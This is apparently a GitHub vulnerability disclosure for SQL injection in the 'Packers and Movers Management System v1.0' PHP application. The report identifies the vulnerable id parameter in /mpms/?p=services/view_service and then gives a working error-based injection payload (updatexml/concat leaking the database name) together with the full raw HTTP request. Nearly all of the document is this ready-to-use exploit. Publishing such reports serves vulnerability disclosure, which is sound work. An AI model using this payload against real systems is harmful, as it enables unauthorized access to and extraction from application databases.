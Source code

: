 # Packers and Movers Management System v1.0 by oretnom23 has SQL injection

BUG_Author: kirra

vendors: https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html

Vulnerability File: /mpms/?p=services/view_service&id=

Vulnerability location: /mpms/?p=services/view_service&id=, id

[+] Payload: /mpms/?p=services/view_service&id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /mpms/?p=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=c01he3spaa8msq4609rs8bml47
Connection: close
```
![image](https://github.com/kirra-max/bug_reports/assets/56863251/b7eac53c-4407-4ddc-92fe-6c4c470d2d2b)
